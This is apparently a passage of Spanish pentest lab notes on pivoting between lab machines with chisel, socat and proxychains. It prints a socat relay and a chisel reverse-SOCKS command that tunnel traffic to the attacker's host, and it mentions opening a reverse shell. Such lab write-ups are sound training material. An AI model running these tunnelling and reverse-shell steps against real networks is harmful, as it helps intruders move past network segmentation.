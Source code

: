 Ahora dentro de la máquina friendly 1 tengo que pasarme el chisel, primero compartiéndolo a través de un servidor http con python pasándo por el proxychains:
![[Pasted image 20230816161253.png]]
![[Pasted image 20230816161218.png]]
Y ahora lo que debemos hacer es primero ejecutar el socat dentro de friendly 3, de tal forma que diremos que el tráfico del puerto 4444 lo envíe al puerto 1234 de nuestra máquina atacante, que es donde tendremos el chisel:
```bash
./socat tcp-l:4444,fork,reuseaddr tcp:192.168.0.30:1234
```
![[Pasted image 20230816161901.png]]
Y ahora con chisel, desde la máquina friendly 1, tenemos que decir que todo el tráfico lo envíe a la máquina friendly 3 donde tenemos el socat, que en este caso la friendly 3 tiene la IP 192.168.0.21:
```bash
./chisel client 192.168.0.21:4444 R:8888:socks
```
![[Pasted image 20230822122607.png]]
Y habremos recibido la conexión en nuestra máquina local con el chisel:
![[Pasted image 20230816162216.png]]
Ahora vamos a editar el archivo de proxychains y descomentamos la línea donde dice scritc_chain:
![[Pasted image 20230816162618.png]]
Y comentamos esta línea:
![[Pasted image 20230816162719.png]]
Y abajo del todo añadimos el nuevo túnel que habíamos creado por el puerto 8888:
![[Pasted image 20230816162645.png]]
Y ahora si hacemos un whatweb a esta IP vemos que llegamos correctamente:
![[Pasted image 20230822183346.png]]
Y la vemos en el navegador:
![[Pasted image 20230822183359.png]]
Y podemos incluso enviarnos una reverse shell y entablar conexión desde esta máquina a la atacante:
![[Pasted image 20230822183902.png]]
![[Pasted image 20230822183909.png]]
En esta máquina nos volvemos a bajar el chisel:
![[Pasted image 20230822184710.png]]
